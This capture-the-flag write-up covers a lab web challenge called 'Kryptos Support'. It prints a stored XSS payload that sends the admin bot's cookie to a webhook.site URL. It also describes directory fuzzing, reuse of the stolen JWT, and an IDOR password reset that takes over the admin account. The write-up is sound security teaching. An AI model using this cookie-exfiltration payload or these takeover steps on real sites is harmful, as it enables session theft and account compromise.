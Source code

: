 # Web - Kryptos Support

## Description
> The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?

<br>
<br>

## Walkthrough

There was no challenge code to download for this challenge, just a web instance.

I looked at the challenge and saw the following.

![Screenshot0](./screenshots/0.png)

__Kryptos Vault Support__, a page where we can send reports, which I did as a test.

![Screenshot1](./screenshots/1.png)

We are told that our ticket is being checked by an admin.

Furthermore, if we click on __Backend__ at the top left, we see a login portal.

![Screenshot2](./screenshots/2.png)

<br>
<br>

### Exploitation 1 - XSS

Well, since we are told that our user input is being viewed by someone and is probably being acted upon in the background by a bot, the first thing I thought of was to try __cross site scripting__.

I searched for a few simple XSS payloads to steal cookies.

I used [webhook.site](https://webhook.site) to receive the cookie and luckily it was the first best payload I took that worked:

__Payload:__

```html
<script>var i=new Image;i.src="https://webhook.site/<REDACTED>/?"+document.cookie;</script>
```

I waited briefly and saw on webhook.site that this actually worked and got a cookie.

![Screenshot3](./screenshots/3.png)

To be more precise, a __JWT__!

I briefly decoded the __JWT__ on [jwt.io](https://jwt.io) and saw a username `moderator` with a user ID `100`.

![Screenshot4](./screenshots/4.png)

I tried to crack the JWT with hashcat, but this only failed.

So I intercepted a login attempt and tried to set my JWT as a cookie header, but this did not work.

Nothing special happened on the URL Base Path `/` either.

Enumeration is key!

I left that out at the beginning and jumped too quickly to the first exploitation.

So I fuzzed with a small word list `common.txt` from __seclists__ for further URL paths and found what I was looking for.

__Command:__ `ffuf -u http://94.237.63.93:45747/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt`

![Screenshot5](./screenshots/5.png)

So I tried again at `/admin`.

I set Burp Proxy to __Intercept On__, called `/admin`, set the JWT into a Cookie HTTP header field...

![Screenshot6](./screenshots/6.png)

...and saw a redirect to `tickets`.

![Screenshot7](./screenshots/7.png)

Forward again and I was logged in as __moderator__ in the backend.

![Screenshot8](./screenshots/8.png)

But no flag yet...

<br>
<br>

### Exploitation 2 - IDOR

At the top left we see a menu __Settings__ which I looked at and found an option to change our password.

![Screenshot9](./screenshots/9.png)

Which of course I did immediately.

![Screenshot10](./screenshots/10.png)

Great, we were now able to change our password as __moderator__.

Can we also do this with other users if?

We have a `uid`...

So let's send the request to Burp's __Repeater__ and give it a try.

Starting with `uid:0` it didn't work and only got a "The user doesn't exist!" in the response.

But with `uid:1` it seemed to work.

![Screenshot11](./screenshots/11.png)

I now logged in as user `admin` with the password I had set and got the flag!

![Screenshot12](./screenshots/12.png)
